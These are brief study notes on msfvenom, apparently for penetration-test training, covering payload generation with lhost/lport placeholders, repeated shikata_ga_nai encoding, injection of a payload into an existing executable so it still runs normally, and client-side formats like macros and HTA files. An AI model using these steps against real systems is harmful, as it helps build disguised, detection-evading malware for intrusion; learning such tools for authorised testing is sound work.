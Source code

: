 # MSFVenom

- Payload generation tool



## Generate a Payload

- -p what payload to generate
- -f the format of the payload 

```
msfvenom -p payload/you/want/to/generate lhost=<local IP> lport=<local port> -f exe -o /path/to/output
```

- Can also generate a payload within metasploit
  - select exploit and payload as normal
  - use generate command

```
generate -f exe -e x86/shikata_ga_nai -i 3 -o output
```



## Encoding



- -e flag is used to encode
- -l encoders will return a list of encoders that can be used 
- -i is iteration how many times you want to encode the payload 

```
msfvenom -p payload/you/want -e x86/shikata_ga_nai -i 4
```

## Inject Payload

- -x flag can be used to inject payload into an existing PE file

```
msfvenom -p payload/you want -x /path/to/file/to/inject.exe 
```

- Injected binary should act as normal

## Client Side Attacks

- msfvenom can also be used to create
  -  office macros
  - HTA files 
  - flash files 
